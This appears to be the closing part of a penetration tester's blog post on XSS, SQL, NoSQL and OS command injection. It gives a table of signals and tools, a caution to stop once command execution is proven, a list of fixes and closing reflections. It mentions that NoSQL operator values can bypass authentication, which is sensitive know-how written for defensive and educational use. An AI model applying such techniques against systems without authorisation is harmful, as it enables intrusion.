> **Caution:** OS command injection is the most dangerous bug class covered in this post. A confirmed finding here means arbitrary code execution on the target's server — stop testing the moment you've captured clear proof (a `whoami`/`id` output, a `uname -a`, a directory listing) and report immediately rather than pivoting toward persistence, lateral movement, or data exfiltration unless your engagement's rules of engagement explicitly call for that level of post-exploitation.

---

## Quick Reference: Injection Types at a Glance

| Injection type | Target | Telltale signal | My go-to tool |
|---|---|---|---|
| XSS | Browser rendering the stored data | Payload reflected unescaped in HTML response | Manual + Burp Intruder with a payload list |
| XAS | Browser rendering third-party-sourced data | Same as XSS, but origin is an ingested external feed | Manual testing of integration/ingestion endpoints |
| SQL injection | Relational database | Verbose SQL error, boolean-based behavior shift | sqlmap |
| NoSQL injection | Document database (MongoDB etc.) | `422`/`500` on operator payloads, auth bypass on `$ne`/`$gt` | Burp Intruder (encoding disabled!) |
| OS command injection | Server's shell | Extra output appended beyond the expected command result | Manual + Wfuzz with separator/command wordlists |

---

## How I'd Fix What I Just Broke

As always, I close out my reports with concrete, prioritized remediation — here's what I'd tell a dev team after finding everything above:

1. **Use parameterized queries and prepared statements, always, for SQL.** Never build a query string via f-strings, concatenation, or template literals with user input inline.
2. **Validate the *type* and *shape* of every field, not just its presence.** My NoSQL bypass worked entirely because the backend accepted an object where it expected a string. A single `isinstance(value, str)` check (or the equivalent schema validation in whatever language/framework you're using) closes that door completely.
3. **Never pass user input to `shell=True`, `exec()`, `eval()`, or any OS-command-executing function without strict allowlisting.** If you must call an external binary, use an argument array (`subprocess.run(["ping", "-c", "1", host])`) instead of a shell string, and validate `host` against a strict pattern (e.g., a valid IP/hostname regex) before it ever reaches that call.
4. **Encode output, not just input.** Escape HTML entities on render, regardless of what validation happened at ingestion — defense in depth matters because you only need one endpoint to skip the input check for stored XSS to come roaring back.
5. **Treat every third-party/API-ingested data source as untrusted**, exactly as untrusted as a public web form — sanitize on the way in *and* escape on the way out.
6. **Turn off verbose error messages in production.** Every "SQL Syntax Error: ..." or stack trace I captured in this post was a gift — it told me exactly what technology I was dealing with and precisely where my payload landed.

## Note

> **Note:** None of these fixes are exotic or expensive to implement — they're mostly a few lines of framework-provided functionality (parameterized queries, schema validators, output encoders) that already ship with virtually every modern language and web framework. The hard part is never "do we know how to fix this," it's "did every single endpoint across a sprawling API actually apply the fix consistently." That's exactly why thorough, endpoint-by-endpoint injection testing stays valuable even against teams who genuinely know better.

---

## Closing Thoughts

If there's one theme running through every single example in this post, it's that injection is fundamentally a confusion between *code* and *data*. SQL injection happens when a database can't tell the difference between a username and a query fragment. XSS happens when a browser can't tell the difference between page content and executable script. Command injection happens when a shell can't tell the difference between an argument and a second instruction. NoSQL injection happens when a query engine can't tell the difference between a literal value and an operator.

Once that framing clicks, injection testing stops feeling like memorizing a giant list of magic strings and starts feeling like asking one consistent question at every single input field you encounter: *what happens if I send something this field's author never imagined a data value could look like?*

That question — "what if I request the unexpected?" — has been the single most productive habit I've built into my testing process. It costs nothing, it applies to every injection class in this post, and more often than any of us would like to admit, the answer is a verbose stack trace with the database password sitting right there in plain text.
